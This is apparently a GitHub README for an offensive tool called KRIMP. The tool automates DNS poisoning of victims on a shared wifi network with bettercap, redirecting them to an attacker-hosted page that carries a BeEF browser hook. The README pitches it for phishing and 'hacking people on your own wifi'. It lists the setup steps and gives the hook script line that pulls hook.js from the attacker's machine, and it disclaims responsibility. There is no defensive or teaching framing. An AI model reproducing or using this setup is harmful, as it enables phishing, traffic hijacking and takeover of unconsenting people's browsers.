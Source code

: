 # KRIMP
```
                          ▄█   ▄█▄    ▄████████  ▄█    ▄▄▄▄███▄▄▄▄      ▄███████▄ 
                          ███ ▄███▀   ███    ███ ███  ▄██▀▀▀███▀▀▀██▄   ███    ███ 
                          ███▐██▀     ███    ███ ███▌ ███   ███   ███   ███    ███ 
                         ▄█████▀     ▄███▄▄▄▄██▀ ███▌ ███   ███   ███   ███    ███ 
                        ▀▀█████▄    ▀▀███▀▀▀▀▀   ███▌ ███   ███   ███ ▀█████████▀  
                          ███▐██▄   ▀███████████ ███  ███   ███   ███   ███        
                          ███ ▀███▄   ███    ███ ███  ███   ███   ███   ███        
                          ███   ▀█▀   ███    ███ █▀    ▀█   ███   █▀   ▄████▀      
                          ▀           ███    ███                                   
  ```
  
Do you ever want to phish someone (ETHICALLY) and u cant seem to find a good url? Well I got you covered. 

This tool automates the process of DNS poisoning a target on your wifi, by doing this you can make a custom URL and redirecting your IP, which is hosting apache, to this URL. Once the target is on this page, you will have full access to their browser because of the beEF hook.  

**This tool is in its alpha stage, more automation will come**

## Pre-requisites
1. You will need to have beEf installed
2. You will need to have bettercap installed
3. You will need to have gnome-terminal installed
4. You will need to have apache2 installed

You will also need an index.html file inside of your /var/www/html folder with a beef hook, add this to a html file to hook it with beef:

`<script src="http://<local ip>:3000/hook.js"></script>`

## Configurate the script
- Change the directories in the script to your installation of beEF and bettercap.

### Extra
At the moment, this tool is only used to hack people on your own wifi, more features will come over time, like over WAN.

#### Responsibility
I am not responsible for any actions u take with this tool.

